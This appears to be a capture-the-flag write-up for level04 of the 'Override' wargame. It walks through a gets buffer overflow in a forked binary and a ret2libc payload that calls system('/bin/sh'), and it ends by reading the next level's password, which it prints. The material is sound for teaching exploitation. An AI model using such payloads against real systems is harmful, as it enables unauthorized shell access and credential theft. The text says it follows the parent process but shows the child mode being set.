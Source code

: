 # Override - level04

We've started executing the binary to see what was asking.

It asked some shellcode.

Disassembling with gdb we noticed that the fork function was used an that there
was a gets to take the input and it was vulnerable. The issue was that the gets was in
in the parent process and executing level04 normally we entered directly in the child.

So we launched gdb with an option to follow the parent process

```
gdb level04

set follow-fork-mode child
```

now we used a buffer oveflow pattern to obtain the segfault address

```
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1994]
0x41326641 in ?? ()
```

using the address of the segv we got that the offset is 156.

Now we follow the steps to build our usual payload:

Find the addresses of system, exit and /bin/sh in the libc

```
info functions system
0xf7e6aed0  system

info functions exit
0xf7e5eb70  exit
```

to find /bin/sh we need to print the list of mapped memory regions.

```
info proc map

0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
```

in the libc we search for "/bin/sh" using find

```
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.

(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

Now we can build the payload for the exploit.

We convert the addresses to little endian

```
system		= 0xf7e6aed0 <=> \xd0\xae\xe6\xf7
exit		= 0xf7e5eb70 <=> \x70\xeb\xe5\xf7
"/bin/sh"	= 0xf7f897ec <=> \xec\x97\xf8\xf7

\xd0\xae\xe6\xf7\x70\xeb\xe5\xf7\xec\x97\xf8\xf7
```

We store the shellcode into a tmp file since we have to open a shell using cat.

```
python -c "print 'a' * 156 + '\xd0\xae\xe6\xf7\x70\xeb\xe5\xf7\xec\x97\xf8\xf7'" > /tmp/level04

cat /tmp/level04 - | ./level04

Give me some shellcode, k
whoami
level05

cat ~level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```